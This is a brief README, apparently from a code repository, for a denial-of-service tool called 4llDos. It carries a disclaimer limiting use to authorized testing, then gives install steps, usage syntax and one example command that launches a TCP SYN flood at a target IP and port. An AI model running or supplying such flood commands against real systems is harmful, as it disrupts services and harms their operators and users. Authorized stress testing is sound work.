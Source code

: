 # 4llDos
Advanced DoS Testing Tool ⚠ Legal Disclaimer: This tool is for authorized penetration testing and security research only. Unauthorized use is illegal. Always obtain explicit written permission before testing any system.  

# Installation & Usage

```
git clone https://github.com/RadinRodrigo/4llDos.git
```

```
cd 4llDos
```

```
python3 dos.py <TARGET_IP> -p <PORT> -t <TPS> -m <METHOD> -d <DURATION>
```

# Example (Authorized Testing):

TCP SYN Flood (100 TPS for 30 seconds)
```
python3 dos.py 192.168.1.100 -p 80 -t 100 -m tcp -d 30
```
